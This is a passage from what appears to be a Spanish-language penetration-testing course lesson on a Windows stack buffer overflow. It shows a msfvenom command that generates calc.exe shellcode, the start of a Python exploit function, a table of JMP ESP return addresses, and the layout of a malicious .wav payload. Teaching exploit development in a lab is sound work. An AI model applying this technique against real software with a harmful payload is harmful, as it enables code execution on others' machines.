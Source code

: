 
Para realizar pruebas iniciales, intentemos `windows/exec` ejecutar la operación `calc.exe` para abrir la calculadora de Windows si nuestro exploit tiene éxito. Para ello, utilizaremos `CMD=calc.exe`, `-f 'python'` ya que estamos utilizando un exploit de Python, y `-b` para especificar los caracteres incorrectos:

```shell-session
0xRh4ps00dy@htb[/htb]$ msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python' -b '\x00'

...SNIP...
buf =  b""
buf += b"\xd9\xec\xba\x3d\xcb\x9e\x28\xd9\x74\x24\xf4\x58\x29"
buf += b"\xc9\xb1\x31\x31\x50\x18\x03\x50\x18\x83\xc0\x39\x29"
buf += b"\x6b\xd4\xa9\x2f\x94\x25\x29\x50\x1c\xc0\x18\x50\x7a"
...SNIP...
```


Copiar la `buf` variable en nuestro exploit, donde ahora definiremos la función final `def exploit()`, que será nuestro código de exploit principal:

```python
def exploit():
    # msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python' -b '\x00'
    buf =  b""
    buf += b"\xd9\xec\xba\x3d\xcb\x9e\x28\xd9\x74\x24\xf4\x58\x29"
    ...SNIP...
    buf += b"\xfd\x2c\x39\x51\x60\xbf\xa1\xb8\x07\x47\x43\xc5"
```

### La carga útil final

Ahora que tenemos nuestro shellcode, podemos escribir la carga útil final que escribiremos en el `.wav` archivo que se abrirá en nuestro programa. Hasta ahora, sabemos lo siguiente:

1. `buffer`:Podemos llenar el buffer escribiendo`b"A"*offset`.
2. `EIP`:Los siguientes 4 bytes deberían ser nuestra dirección de retorno.
3. `buf`:Después de eso, podemos agregar nuestro shellcode.

En la sección anterior, encontramos múltiples direcciones de retorno que pueden funcionar al ejecutar cualquier código shell que escribamos en la pila:

|`ESP`|`JMP ESP`|`PUSH ESP; RET`|
|---|---|---|
|`0014F974`|`00419D0B`|`0047D4F5`|
|-|`00463B91`|`00483D0E`|
|-|`00477A8B`|-|
|-|`0047E58B`|-|
|-|`004979F4`|-|

Cualquiera de estos debería funcionar para ejecutar el código shell que escribimos en la pila (siéntete libre de probar algunos de ellos). Comenzaremos con el más confiable, `JMP ESP`, y elegiremos la primera dirección `00419D0B` y la escribiremos como nuestra dirección de retorno.
